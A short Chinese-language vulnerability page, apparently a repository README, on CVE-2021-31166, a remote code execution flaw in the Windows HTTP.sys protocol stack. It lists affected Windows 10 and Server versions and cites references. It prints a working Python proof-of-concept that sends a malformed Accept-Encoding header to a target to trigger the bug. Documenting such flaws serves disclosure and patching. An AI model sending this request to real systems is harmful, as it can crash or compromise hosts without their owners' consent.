 # HTTP协议栈远程代码执行漏洞（CVE-2021-31166）


该漏洞存在于HTTP 协议栈 (http.sys) 的处理程序中，未经身份验证的远程攻击者可通过向目标主机发送特制数据包来进行利用，从而在目标系统上以内核身份执行任意代码。CVSS评分为9.8。

影响版本

* Windows Server, version 20H2 (Server Core Installation)
* Windows 10 Version 20H2 for ARM64-based Systems
* Windows 10 Version 20H2 for 32-bit Systems
* Windows 10 Version 20H2 for x64-based Systems
* Windows Server, version 2004 (Server Core installation)
* Windows 10 Version 2004 for x64-based Systems
* Windows 10 Version 2004 for ARM64-based Systems
* Windows 10 Version 2004 for 32-bit Systems

PoC.py:


```
import requests
import argparse

def main():
    parser = argparse.ArgumentParser('Poc for CVE-2021-31166: remote UAF in HTTP.sys')
    parser.add_argument('--target', required = True)
    args = parser.parse_args()
    r = requests.get(f'http://{args.target}/', headers = {
        'Accept-Encoding': 'doar-e, ftw, imo, ,',
    })
    print(r)

main()
```

ref:

* https://github.com/0vercl0k/CVE-2021-31166
* http://blog.nsfocus.net/cve-2021-31166/
* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31166